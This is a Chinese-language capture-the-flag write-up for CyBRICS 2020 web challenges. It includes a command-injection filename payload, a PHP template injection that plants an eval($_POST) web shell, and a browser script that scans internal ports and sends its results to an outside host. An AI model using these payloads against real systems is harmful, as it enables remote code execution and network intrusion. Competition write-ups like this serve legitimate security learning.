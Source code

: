 categories:
- 比赛
tags:
- web
- ctf
- wp
title: CyBRICS2020
---
#  CyBRICS  2020



## Hunt

用burp修改返回包

flag:`cybrics{Th0se_c4p7ch4s_c4n_hunter2_my_hunter2ing_hunter2}`



## Gif2png

源代码已上传

```
if not bool(re.match("^[a-zA-Z0-9_\-. '\"\=\$\(\)\|]*$", file.filename)):
    exit()
...
def allowed_file(filename):
    return '.' in filename and filename.rsplit('.', 1)[1].lower() in ALLOWED_EXTENSIONS
allowed_file(file.filename)
...
command = subprocess.Popen(f"ffmpeg -i 'uploads/{file.filename}' \"uploads/{uid}/%03d.png\"", shell=True)
```

`filename="'$(sleep 5)'a.gif"`来执行命令

cybrics{imagesaresocoolicandrawonthem}



## woc

![image631](https://raw.githubusercontent.com/Explorersss/photo/master/20200726002857.png)

calc.php


```php=
if (!preg_match('#(?=^([ %()*+\-./]+|\d+|M_PI|M_E|log|rand|sqrt|a?(sin|cos|tan)h?)+$)^([^()]*|([^()]*\((?>[^()]+|(?4))*\)[^()]*)*)$#s', $field)) {
        $value = "BAD";
    }else{
    $value = eval("return $field;");
}
```


```
9999999999999999999:1.0E+25
1/0:INF
0/0:NAN
log(0):-INF
```


newtemplate.php

```php=
        if (strpos($html, '<?') !== false) {
            $error = "Bad chars";
            break;
        }
        ...
        file_put_contents("calcs/$userid/templates/$uuid.html", $html);
```

calc.php
```php=
file_put_contents("calcs/$userid/$calc.php", "<script>var preloadValue = <?=json_encode((string)($field))?>;</script>\n" . file_get_contents("inc/calclib.html") . file_get_contents("calcs/$userid/templates/$template.html"));
```

html转php处，利用`/*`破坏结构，`file_get_contents("calcs/$userid/templates/$template.html"))`处`*/`收尾，于是绕过成功


新建template:
```
*/)).eval($_POST[1])?>
$requiredBlocks = [
            'id="back"',
            'id="field" name="field"',
            'id="digit0"',
            'id="digit1"',
            'id="digit2"',
            'id="digit3"',
            'id="digit4"',
            'id="digit5"',
            'id="digit6"',
            'id="digit7"',
            'id="digit8"',
            'id="digit9"',
            'id="plus"',
            'id="equals"',
        ];
```

向calc post:
`field=1/*&share=1`



flag:cybrics{5aMe_7h1ng_W3_d0_3Ve5y_n16ht_P1nKY.Try_2_t4k3_0vEr_t3h_w0RLd}

##  Developer's Laptop 

看题目样子是xss题?SSRF?


浏览器信息：HeadlessChrome/79.0.3945.79 

填写脚本：
```javascript=
a=document.getElementsByClassName("form-control");a[1].value="WQLSaidXUtQAfD6ptJc7Yg";a[0].value="http://ccreater.top:60000";
```

返回包
```
HEAD / HTTP/1.1
Host: ccreater.top:60000
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/79.0.3945.79 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
Access-Control-Request-Method: POST
Origin: prod.free-design-feedback-cybrics2020.ctf.su
Referer: http://prod.free-design-feedback-cybrics2020.ctf.su

```


等等开发人员的电脑？肯定一堆服务，内网扫描！

http服务扫描：
```htmlmixed=
<html>
<head>
<meta http-equiv="Content-Type" content="text/html; charset=utf-8" />
</head>
<body>
    
<script>
var from = 1;
var complete = true;
var clear = false;
function check(text){
    var linkEl = document.head.querySelector('link[href*="'+text+'"');
    var cssLoaded = Boolean(linkEl.sheet);
    linkEl.addEventListener('load', function () {
        console.log(text)
        // log
		fetch("http://ccreater.top:60010/log.php?log="+text)
			.then(r=>r.text())
			.then(d=>{console.log("log success")})
		// log end
    });
}
function clearstyle(clear_from ,clear_to){
	clear = true;
	console.log("clear task start");
	while(clear_to<=clear_from){
            document.head.querySelector('link[href$=":'+clear_to+'"').remove();
			clear_to++;
    }
	clear = false;
	console.log("clear task end");
}
function make(text){
    head = document.getElementsByTagName('head')[0];
	var port = text;
    var url = "http://127.0.0.1:"+port,
    link = document.createElement('link');
    link.rel = "stylesheet";
    link.href = url;
    head.appendChild(link);
    check(text);
}
async function scan(){
	var to = from + 80 > 65535 ? 65535 : from + 80;
	for(var i=from;i<to;i++){
		make(String(i));
	}
	from +=80;
	setTimeout(()=>{clearstyle(from,to);},5000);
};

async function listener (){
	console.log("listener works,from:"+from+",complete:"+complete);
	if(from < 65535){
		setTimeout(listener,5000);
		if(complete && !clear){
			console.log("new task!");
			scan()
				.then(()=>{complete = true;})
			complete = false;
		}
	}
	
}
listener()
</script>
</body>
</html>

```



虽然我猜到了有内网服务但是到最后我还是没有扫到。。

脚本在本地是可以跑的，但是服务器上就不行，可能是因为有时间限制吧，遗憾。